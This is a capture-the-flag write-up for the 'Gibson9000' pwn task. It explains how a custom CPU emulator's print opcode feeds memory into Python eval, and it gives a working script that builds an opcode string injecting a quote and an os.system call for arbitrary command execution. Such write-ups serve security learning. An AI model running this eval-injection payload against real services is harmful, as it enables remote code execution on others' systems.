 # Gibson9000 - Pwn (100 + 0), 15 solves

> Can you program our new line of Gibson 9000 Calcumatron CPUs?

In this task we were given a short `README` file describing a custom computer architecture, and a `host:port`
running an emulator for the arch. The description hinted at possibility of the bug in the emulator 
("emulator was written by an intern").

The opcodes were as follows:
- `*x` - *dptr += x
- `+x` - dptr += x
- `_x` - some conditional jump, didn't need it
- `Xx` - print (zero-terminated?) string at dptr
- `Mx` - heat -= 1
- `Dx` - toggle debug

There was only limited RAM (128 bytes), so we immediately thought about the boundary conditions (what if dptr
goes over or under the range 0-127). It seems all of these were taken into account though. After 
an hour of sending random stuff, we managed to crash the emulator. The smallest reproducible example was
`*7*6X0`, which meant (ADD 7, ADD 6, print dptr). The emulator sends the following output:
```
Input your calculatory opcodez: *7*6X0
Result:
Traceback (most recent call last):
  File "/home/ctf/chal.py", line 129, in <module>
    dostep()
  File "/home/ctf/chal.py", line 104, in dostep
    print eval('"' + s + '"')
  File "<string>", line 1
    "
    ^
SyntaxError: EOL while scanning string literal
```

Looks like our string to be printed is evaluated? What the hell. The crash was because our string in this case was
`\r`, which may count as ending the line.

The path to solution is now obvious. Escape the sandbox via sending quote char, then some `__import__('os').system('ls')` or
whatever. This simple script allowed us to easily execute arbitrary commands on server:
```python
import sys

def build_char(c):
    c = ord(c)
    s = ""
    while c >= 7:
        s += "*7"
        s += "M0" * 7
        c -= 7
    s += "*%d" % c
    s += "M0" * 7
    s += "+1"
    s += "M0" * 7
    return s

total = ""
for c in '''"+__import__("os").system("%s")#''' % sys.argv[1]:
    total += build_char(c)
print total + "X0"
```
